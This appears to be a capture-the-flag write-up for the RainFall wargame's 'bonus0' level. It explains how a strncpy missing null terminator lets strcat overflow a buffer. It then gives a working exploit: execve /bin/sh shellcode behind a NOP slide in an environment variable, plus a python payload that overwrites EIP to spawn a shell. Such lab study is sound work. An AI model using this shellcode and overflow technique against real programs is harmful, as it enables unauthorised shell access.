 # Bonus 0

In pp we can see that a string is read into a 4096 characters size buffer and a  NULL terminator is placed if there's a newline before 10 characters in and a call to strncpy.
`man strncpy` tells us that if there's no '\0' within n characters the string won't be NULL terminated. 
Which means we can blow past the 20 char limit and get strcat to return a + b + space char + b, overflowing the buffer in main.

```shell
(gdb) br *main+28
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/bonus0/bonus0
 -
aaaaaaaaaaaaaaaaaaaaa
 -
bb
Breakpoint 1, 0x080485c0 in main ()
(gdb) x/s $esp+0x16
0xbffff6e6:      'a' <repeats 20 times>, "bb bb"
(gdb) c
Continuing.
aaaaaaaaaaaaaaaaaaaaabb bb
[Inferior 1 (process 5768) exited normally]
```
We can see that the b string is repeated twice.

## Using the env
Let's put our [shellcode](https://shell-storm.org/shellcode/files/shellcode-811.html) after a safety NOP slide into the env, we'll try to replace its address with `EIP` afterwards.

```shell
export PWN=$(python -c 'print "\x90"*500 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
Let's now get its address within gdb and add some margin, this will keep it working even if the env changes slightly.

```shell
bonus0@RainFall:~$ gdb -q ./bonus0 
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) r
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) p (char*)getenv("PWN")
$1 = 0xbffffd2c "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
```
The address of PWN in gdb's env is 0xbffffd2c, let's give ourselves a margin of 0x40 -> 0xBFFFFD6C.

Let's now replace EIP with that address.
```shell
bonus0@RainFall:~$ (python -c 'print "a"*20'; python -c 'print "b"*14 + "\x6c\xfd\xff\xbfa"'; cat -) | ./bonus0 
# The address is within the env to account for changes.
```
Bingo!
